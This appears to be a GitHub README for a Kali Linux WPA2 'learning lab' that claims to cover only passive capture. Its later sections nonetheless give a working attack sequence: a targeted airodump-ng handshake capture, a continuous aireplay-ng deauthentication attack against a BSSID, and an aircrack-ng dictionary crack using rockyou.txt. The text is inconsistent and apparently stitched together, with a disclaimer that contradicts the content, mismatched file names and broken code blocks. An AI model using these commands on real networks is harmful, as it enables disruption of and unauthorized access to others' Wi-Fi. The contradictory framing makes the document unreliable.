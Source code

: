 
# Wi-Fi WPA2 Learning Lab — Passive Capture & Analysis (Safe / Ethical)

> **Important:** This repo/document is for **defensive learning only**. Do **not** run attacks or cracking workflows against networks you do not own or do not have **explicit written permission** to test. I will not provide commands for deauthentication attacks or for cracking passphrases. The steps below show passive capture and analysis techniques you can use in a controlled lab using equipment you own.

---

## Overview
This guide documents the hardware and the *passive* commands used during my WPA2 learning lab on Kali Linux. The goal: understand Wi-Fi management frames, observe EAPOL/handshake packets in a controlled environment, and use Wireshark to analyse what happens when clients reauthenticate — **without performing attacks or cracking passwords**.

---

## Hardware
```

Alfa AWUS036NHA

````
- Use a dedicated USB adapter for monitor mode to avoid disrupting your host Wi-Fi.
- Test only on routers and devices you own or have written permission to test.

---

## Preflight checks (host & Kali)
On your Kali VM/host, confirm OS and kernel:
```bash
# Kali version / distro information
cat /etc/os-release

# Kernel / system uname
uname -a
````

Check USB detection on the host (if running in VM):

```bash
# On host (not inside VM)
lsusb
dmesg | tail -n 40
```

If using VirtualBox, ensure USB passthrough (see VM tips below).

---

## See network interfaces

Run these inside Kali to list interfaces and wireless info:

```bash
# show addresses & interfaces
ip addr

# legacy wireless tool (shows mode etc.)
iwconfig
```

If you don't see your adapter, double-check USB passthrough / drivers / kernel messages.

---

## Kill interfering processes

Some network managers or services can interfere with monitor mode. Run:

```bash
sudo airmon-ng check kill
```

> This will stop NetworkManager/wpa\_supplicant (do not forget to restart them after testing).

---

## Start monitor mode

Put your adapter into monitor mode (this will create a monitor interface such as `wlan0mon`, `mon0`, etc.). Replace `wlan0` with your adapter name:

```bash
sudo airmon-ng start wlan0
```

Verify monitor-mode interfaces:

```
sudo airmon-ng    # lists interfaces and their mode
iwconfig          # confirms the interface is in "Monitor" mode
```

---

## Passive discovery with airodump-ng

Use `airodump-ng` to observe nearby APs and their channels. This is **passive** (listening only):


# Start passive scan (replace with your monitor interface)
```
sudo airodump-ng wlan0mon
```

From `airodump-ng` output note the AP BSSID and Channel for your target AP (your own AP in the lab). Example captured values (replace with your own):

* **ESSID / AP BSSID:** `90:9A:4A:B8:F3:FB`
* **Channel:** `2`

---




## Wi-Fi Network Capture and Deauthentication Attack Commands

### First Window: Network Capture
**Command:**
```bash
sudo airodump-ng -w capture1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon
```

**Instructions:**
- Replace the channel number (`-c 2`) with the target network's channel.
- Replace the BSSID (`90:9A:4A:B8:F3:FB`) with the target network's BSSID.
- Replace `capture1` with your desired output file name (e.g., `capture1`).
- Ensure `wlan0mon` is your network interface in monitor mode.

### Second Window: Deauthentication Attack
**Command:**
```bash
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```

**Instructions:**
- Replace the BSSID (`90:9A:4A:B8:F3:FB`) with the target network's BSSID.
- Ensure `wlan0mon` is your network interface in monitor mode.
- The `--deauth 0` flag sends continuous deauthentication packets until stopped.
```

---
## Analyse captures with Wireshark
```
Open the `.cap` file in Wireshark:

```bash
wireshark capture1-01.cap
```

Use Wireshark display filters to find WPA2 handshake/EAPOL frames:

```
eapol
```

Other useful filters:

```
wlan.fc.type_subtype == 0x0c   # deauthentication frames (view only; do not generate)
wlan_mgt
wlan.fc.type == 0              # management frames
```

* Observe EAPOL packets and the 4-way handshake frame sequence when a client legitimately reauthenticates.
* Save and export views or screenshots for documentation.

---


## Cracking Wi-Fi Password with Aircrack-ng

**Command:**
```bash
aircrack-ng capture1-01.cap -w /usr/share/wordlists/rockyou.txt
```

**Instructions:**
- Ensure you have the `rockyou.txt` wordlist in text format (unzip if necessary on Kali Linux).
- Replace `hack1-01.cap` with the name of your captured file.
- The wordlist path (`/usr/share/wordlists/rockyou.txt`) assumes the default location on Kali Linux; adjust if using a different wordlist or path.
```
---

## Stop monitor mode & restore network

When finished, stop monitor mode and restart network managers:

```bash
# Stop monitor mode (replace with your monitor iface)
sudo airmon-ng stop wlan0mon

# Re-enable Network Manager and wpa_supplicant (example commands)
sudo systemctl start NetworkManager
sudo systemctl start wpa_supplicant
```

---
## Tips for running Kali inside VirtualBox (USB passthrough)

1. Install the VirtualBox Extension Pack (matches your VirtualBox version) to enable USB 2.0/3.0 passthrough.
2. In VirtualBox Manager, with VM powered off → **Settings → USB** → Enable USB Controller (choose EHCI or xHCI).
3. Add a USB filter or attach the device when VM is running: **Devices → USB → \[Your Adapter]**.
4. Ensure your host user is in the `vboxusers` group (Linux hosts):

```bash
sudo usermod -aG vboxusers $USER
# log out and log back in for changes to take effect
```

---


